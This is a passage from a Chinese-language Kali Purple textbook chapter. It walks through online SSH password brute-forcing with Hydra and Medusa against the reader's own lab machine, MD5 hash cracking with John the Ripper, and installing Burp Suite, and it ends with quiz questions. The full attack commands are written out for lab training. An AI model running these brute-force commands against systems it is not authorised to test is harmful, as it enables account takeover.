通过输入 **sudo apt install redis** 安装 Redis 服务器，然后通过输入 **sudo systemctl start redis** 启动服务。输入 **sudo systemctl status redis** 来验证它是否正常运行。当你完成这些步骤时，由于安装和配置 GVM 可能会有些麻烦，并且对升级非常敏感，我们强烈建议再执行一次 **sudo apt update**/**upgrade** 以确保一切正常运行，然后完全重启并/或重新启动 GVM。就像 Nmap、SQLmap 和 Nikto 一样，启动扫描的命令非常简单。输入 **gvm-cli -h** 获取选项列表，享受吧！

如你所见，Kali Purple 提供了大量的扫描工具，涵盖了几乎所有你能想到的扫描类型和风格，从网络到数据库到 Web 服务器到基础设施。一些扫描工具是为处理多个专业领域而设计的。当这些扫描器发现漏洞时，例如弱密码规则集，怎么办？果然，Kali Purple 也有工具来帮助利用已发现的漏洞。

# 密码破解

扫描和发现 Web 或其他技术应用中的漏洞是整个网络攻击流程的一个重要组成部分。然而，最终的目标是获取目标的访问权限，并在可能的情况下，提升权限，以便可以造成各种无情的破坏。

## Hydra

**Hydra** 是一款广泛用于对各种网络协议执行在线密码攻击的密码破解工具。它的设计旨在帮助网络安全渗透测试人员及其他进攻性安全人员通过猜测和/或识别弱密码来对抗网络系统的安全性。

以下是 Hydra 的一些亮点：

+   支持多种协议类型

+   暴力破解和字典攻击

+   并行化攻击会话

+   可自定义的攻击参数

+   会话恢复及暂停/恢复功能

+   用户名枚举

+   用户友好的命令行界面

+   日志记录与报告

+   支持 SSL/TLS 安全

+   跨平台兼容性

+   具有社区支持的可扩展性

要使用 Hydra，你可以选择我们环境左上角的 Kali 龙图标，然后在搜索栏中输入 **Hydra**，或者向下滚动并突出显示 **Password Attacks**。接着，将鼠标移到右侧新展开的栏目中，点击 **Hydra** 选项。

如果你更喜欢输入命令，可以输入 **sudo apt update**；如果结果显示有升级，你需要输入 **sudo apt upgrade** 来安装它们。完成后，输入 **sudo apt install hydra** 正式安装 Hydra。

为了让 Hydra 有效工作，你需要创建（祝你好运）或下载一个密码列表供程序使用。以下是一些人们常用的密码破解工具的流行密码列表：

+   **SecLists**: [`github.com/danielmiessler/SecLists`](https://github.com/danielmiessler/SecLists)

+   **Daniel Miessler 的个人 GitHub** **仓库**: [`github.com/danielmiessler`](https://github.com/danielmiessler)

+   **CrackStation**: [`crackstation.net/`](https://crackstation.net/)

+   **Probable-Wordlists**: [`github.com/berzerk0/Probable-Wordlists`](https://github.com/berzerk0/Probable-Wordlists)

+   **Weakpass**: [`weakpass.com/wordlist`](https://weakpass.com/wordlist)

+   **Hashes.org**: [`hashes.org`](https://hashes.org)

我们将使用 SecLists 作为示例。为此，输入 **git** **clone https://github.com/danielmiessler/SecLists.git**。

通过键入 **cd SecLists/Passwords/** 来导航到包含各种密码列表的目录，然后输入 **ls** 来确认你是否在正确的位置。如果使用 **cd** 不起作用，请在 **SecLists** 前加上一个正斜杠并重试。你应该会看到许多不同风格的密码列表，如 *图 10.20* 所示。我们将使用 **2023-200_most_used_passwords.txt** 文件。让我们通过键入 **sudo nano 2023-200_most_used_passwords.txt** 来编辑该文件。在文件中的任意空白行输入你用来登录 Kali Purple 实例的密码。如果没有空白行，只需使用键盘上的箭头键将光标对齐到任何一行的开头，并按 *Enter* 创建一个新行。然后，再次使用箭头键移动到空白行，输入你的 Kali Purple 密码。按 *Ctrl* + *X* 并选择 *Y* 保存：

图 10.20 – Hydra /SecLists/Passwords 目录中的密码文件

我们这样做是为了演示目的，并保持破解过程高效。从理论上讲，我们可以抓取一个更深入的密码列表，该列表可能已经列出了你的 Kali Purple 密码，除非你已经遵循了本书中讨论的一些高级密码创建方法。然而，列表越长，Hydra 完成工作的时间就越长，除非我们足够幸运，你刚好选择了一个位于列表顶部的密码。在 Kali Purple 中，任何新安装或启动的工具，例如这个 SSH 服务器，都会继承你默认的 Kali Purple 凭据。因此，如果你在生产环境中进行设置，请确保在每次设置系统中的应用程序时更改默认凭据。

现在，输入**pwd**来获取指向该目录的完整文件路径，并记住或记录下这个路径。记住，**pwd**代表的是**打印工作目录**。很多人可能会误以为它代表*密码*，这在你对 Linux 不太熟悉并尝试进行渗透测试时可能会造成困惑。稍后你将在攻击中使用这个完整路径。我们将攻击一个 SSH 服务器，但为了这样做，我们需要先启动一个。输入**sudo systemctl start ssh**；当命令提示符返回时，输入**sudo systemctl status ssh**以确保服务已启动并运行。如果服务正在运行，终端会告诉你。从这里开始，我们将使用 Hydra 对 SSH 服务器进行密码破解尝试。掌握了这些信息和完整的文件路径后，你将决定使用哪个密码文件，并简单地输入命令，指定你希望 Hydra 使用的用户名、密码文件的完整路径以及你要攻击的协议——在本例中是 SSH 服务器。

在启动 Hydra 之前，输入**ifconfig**并记下你想要攻击的接口。默认情况下，这应该是**eth0**接口。如果你设置为**eth1**或自定义名称的接口，那么你已经具备了抓取所需 IP 地址的技术知识，可以继续进行下一步。

通过输入**hydra -l <KaliPurpleUserName> -P <FullPathToPasswordFile> ssh<eth0 或 eth1 的 IP 地址>**来启动攻击。因此，在我们的案例中，这个 Kali Purple 实例的用户名和密码是 karllane。通常，在生产系统或非培训系统中，我们会使用不同且更复杂的值。我们之前通过输入**pwd**命令获得的密码文件的完整路径是**/home/karllane/SecLists/Passwords/2023-200_most_used_passwords.txt**。因此，我们输入的完整攻击命令是**hydra -l karllane -P /home/karllane/SecLists/Passwords/2023-200_most_used_passwords.txt ssh://10.0.2.15**。

如果一切按计划进行，Hydra 应该会非常迅速地发现你的密码——这里所说的“非常迅速”是指在纳秒级别，如*图 10.21*所示：

图 10.21 – Hydra – 成功破解我们的 Kali Purple SSH 服务器的密码

现在，让我们来看一下 Medusa。

## Medusa

**Medusa** 是一个与 Hydra 功能非常相似的工具。它默认不在 Kali 菜单中，但在从命令行安装后，会出现在 **密码攻击** 下。现在请执行这一步。输入 **sudo apt update**，然后如果你愿意，可以输入 **sudo apt upgrade**。完成后，输入命令正式安装 Medusa，也就是输入 **sudo apt install medusa**。由于我们已经完成了设置 Hydra 的繁琐工作，这一步会更快。安装完后，假设你的 SSH 服务器仍然运行，你几乎可以立即发起攻击。要检查服务器状态，输入 **sudo systemctl status ssh**；如果它没有运行，重新输入该命令，将 **status** 替换为 **start**。然后，输入以下命令发起攻击：**medusa -h 10.0.2.15 -u karllane -P /home/karllane/SecLists/Passwords/2023-200_most_used_passwords.txt -****M ssh**。

正如你将发现的那样，破解过程非常快速。如果成功，你应该会看到 *图 10.22* 中的结果：

图 10.22 – Medusa – 成功破解我们的 Kali Purple SSH 服务器密码

接下来，我们将介绍 John the Ripper。

## John the Ripper

**John the Ripper** 是一个非常著名和流行的密码破解工具。它通常被安全专家和渗透测试员用来测试密码的强度，并为组织进行安全评估。它是一个功能极其多样的密码破解工具，支持多种加密哈希算法和密码格式。

要使用 John the Ripper，请在环境的左上角选择 Kali 龙图标，然后在搜索栏中输入 **john** 或者向下滚动并高亮显示 **密码攻击**。接着，将光标移至右侧新展开的栏目并点击 **John the** **Ripper** 选项。

从命令行安装它时，输入 **sudo apt update**，然后如果你愿意，可以输入 **sudo apt upgrade**。完成后，输入命令正式安装 John the Ripper，也就是输入 **sudo apt install john**。

我们已经攻击过我们的 SSH 服务器两次了，所以为了保持清醒，我们做点不一样的事情吧。让我们做些 **John the Ripper** 擅长的事情，破解一个密码哈希！首先，创建一个文件来存储我们的哈希值。输入 **sudo nano hashtest.txt** 或者你喜欢的任何名字。只需记住在命令中输入正确的文件名。在文件中，第一行输入 **37203f0ef82c870c36cd6f99e1fbfe4c** 作为哈希值，然后按 *Ctrl* + *X* 关闭并保存文件，选择 *Y* 来确认你的选择。现在，输入命令来调用 John the Ripper（它自带了一个预安装的密码列表），并用它来破解该文件中的哈希值。输入 **john –format=raw-md5 hashtest.txt**，将文本文件的实际名称替换为你选择的文件名。如果一切顺利，你会发现你放入文件中的哈希值解析为单词 **valhalla**，如 *图 10.23* 所示：

图 10.23 – John the Ripper 成功破解文件中的哈希值

现在我们已经覆盖了数据包捕获、强大的漏洞扫描、利用攻击和利用 Metasploit 进行有效载荷传递，以及使用 Hydra、Medusa 和 John the Ripper 进行密码破解，我们将把本章内容做个总结，回到 web 应用分析，使用 ZAP 的主要竞争对手 Burp Suite。像 ZAP 一样，Burp Suite 提供了大量免费的培训，但它也有强大的商业组件。

# Burp Suite 集成

你很难找到一位不使用或至少没听说过 Burp Suite 的专业 web 应用渗透测试人员。这个工具由一个名为 PortSwigger 的公司开发。我们在 *第一章* 中稍微讨论了 Burp Suite 的结构，如果你想复习的话，可以参考那一章。

让我们快速下载并为你设置好可以使用的版本。在你的 Kali Purple 实例中，打开一个浏览器——在这种情况下最好是 Firefox——并访问 [`portswigger.net/burp/documentation/desktop/getting-started/download-and-install`](https://portswigger.net/burp/documentation/desktop/getting-started/download-and-install)。然后向下滚动，直到看到 **下载** 部分下的 **选择你的软件** 选项，如 *图 10.24* 所示。选择 **Community** **Edition** 版本：

图 10.24 – Burp Suite 下载

网站应该能自动识别你的操作系统，并默认提供正确的下载选项。如果没有，你可以选择操作系统列表中的下拉菜单，并选择合适的操作系统以下载正确的 Burp Suite 版本。你还需要点击下载按钮右侧的**显示校验和**链接，并记录下那些值。这样，校验和会显示出来，按钮也会变成**隐藏校验和**（如*图 10.25*所示）。记录下这些值：

图 10.25 – Burp Suite 下载选项和校验和

在你的命令终端中，输入**cd /Downloads**进入**下载**文件夹，并输入**ls**来确认下载文件是否存在。你应该看到一个文件，文件名类似于**burpsuite_community_linux_v2024_2_1_5.sh**，其中年份和版本号可能会有所不同，具体取决于你查看本文的时间。*图 10.26* 显示了有两个文件哈希值可以选择。你只需要使用其中一个来确认下载文件是否未被篡改。若要确认 SHA256，可以输入**sha256 burpsuite_community_linux_v2024_2_1_5.sh**；若要确认 MD5 哈希，可以输入**md5sum burpsuite_community_linux_v2024_2_1_5.sh**。无论你选择哪个选项，都要将生成的值与*图 10.26*中显示的值进行比较，确保与从 Burp Suite 下载页面记录的值一致：

图 10.26 – Burp Suite 校验和在命令行中的确认

由于我们快要结束这段旅程了，现在将向你展示一个快捷方式来启动应用程序，同时确保它具有启动所需的文件权限。将**chmod**与启动命令结合，运行**sudo chmod +x burpsuite_community_linux_v2024_2_1_5.sh && ./burpsuite_community_linux_v2024_2_1_5.sh**。

你应该会看到一个名为**Burp Suite Community Edition 安装向导**的弹窗。点击**下一步 >**按钮，继续安装过程。在接下来的几个界面中，会有一些自定义选项。每个界面上选择**下一步 >**，直到最后一个界面，你将看到一个选项让你选择**完成**。点击它以开始提取 Burp Suite 文件。

完成后，你可以像我们在这一章中启动其他应用程序一样启动 Burp Suite。提醒一下，要做到这一点，进入你 Purple 实例左上角的 Kali 龙图标，在搜索栏中输入**Burp** **Suite**，或者滚动到**所有应用程序**并观察应用程序在右侧扩展的窗口中显示出来。此外，你也可以尝试通过在命令行中直接输入**burpsuite**来启动 Burp Suite。然而，默认情况下，Kali Linux 通常不包括这个快捷方式。所以，系统可能会要求你安装它，你可以选择**Y**（是）让自动化完成，或者在命令行中输入完整的**sudo apt install burpsuite**命令。请注意，这不会重新安装 Burp Suite，因为你已经完成了安装！这只是安装了一个从命令行调用 Burp Suite 的命令，而这个命令的名称就是**burpsuite**。

一旦你安装了这个命令，你可以在命令行中输入**burpsuite**来启动应用程序。完成后，我们建议在整个应用程序启动过程中接受默认值，作为一个临时项目。原因是，这将把你带到默认仪表板，在那里 PortSwigger 提供了大量的入门材料、视频教程、引导式游览和网络学院。这个产品本身可以作为几门大学级课程来教授。这些视频提供的指导远远优于我们在这里能打印的任何内容。如果你对攻击性安全和渗透测试感兴趣，我们强烈推荐花时间学习并掌握 Burp Suite，开始时观看这些视频将是你能得到的最佳培训。值得一提的是，虽然有一些收费培训，但这里提供了大量*免费的*培训资源！

让我们来看看这一章我们学到了什么！

# 总结

在这一章中，你继续深入挖掘了各种红队工具，并学习了如何将它们用来对抗网络防御。在生产环境中，我们攻击的 SSH 服务器将会有某种代理在监控活动，并将这些活动报告回我们的蓝队工具。数据会被收集、丰富和存储；然后，当分析师准备好时，它将通过 ELK 堆栈或我们已覆盖的某些 IDS/IPS 解决方案显示出来。

在本章中，我们介绍了一些强大的 Web 应用程序工具，这些工具可以用于漏洞管理，帮助我们增强 Web 应用程序的整体安全性。我们还探讨了各种侦察和获取访问权限的工具，并使用了大量扫描器和密码破解工具。这只是一个小小的尝试，朋友们。这些是 Kali Purple 天生支持的工具。但这并不意味着它们是 Kali Purple 环境中唯一有用的工具——Kali Linux 操作系统旨在容纳其他人定制的贡献。这也是软件社区能保持活力的原因。

在下一章——我们最后一章，我们将汇总一些 Kali Purple 中的零散功能，这些功能在其他章节中没有完全涵盖。这应该能带你走到旅程的尽头，并完成对 Kali Purple 的介绍。

# 问题

回答以下问题，以测试你对本章的理解：

1.  我们讨论的扫描工具属于网络攻击的哪个阶段？

    1.  Payload 传输

    1.  利用

    1.  恢复

    1.  侦察

1.  什么是 Wireshark？

    1.  协议分析仪

    1.  一位与黑手党相关的贷款官员

    1.  一个物理电缆监听器

    1.  一个网络数据包生成器

1.  什么是 John the Ripper？

    1.  Jack 的哥哥

    1.  一个密码和哈希破解工具

    1.  一个网络数据包反汇编器

    1.  一个 WAF 绕过漏洞

1.  如果你尝试破解的密码不在正在调用的破解工具的词表中，你认为会发生什么？

    1.  该工具将自动重启，并使用目录中下一个词表的值

    1.  该工具将从词表中完成扫描，然后随机生成内容，尝试猜测密码

    1.  密码将无法成功破解，你需要找到另一份列表或方法来完成目标

    1.  密码破解工具会变得异常激烈，并自动切换到通过字典和模糊值测试的暴力破解方式

1.  哪个工具最像 ZAP？

    1.  Google Chrome

    1.  Mozilla Firefox

    1.  Portswigger

    1.  Burp Suite

# 深入阅读

若要了解更多本章涉及的主题，请参考以下资源：

+   **全球信息保障 Wireshark** **论文**：[`nvlpubs.nist.gov/nistpubs/CSWP/NIST.CSWP.29.pdf`](https://nvlpubs.nist.gov/nistpubs/CSWP/NIST.CSWP.29.pdf)

+   **什么是 Wireshark，如何使用？**：[`www.comptia.org/content/articles/what-is-wireshark-and-how-to-use-it`](https://www.comptia.org/content/articles/what-is-wireshark-and-how-to-use-it)

+   **Tenable 的 Nessus 漏洞** **扫描器**：[`www.tenable.com/products/nessus`](https://www.tenable.com/products/nessus)
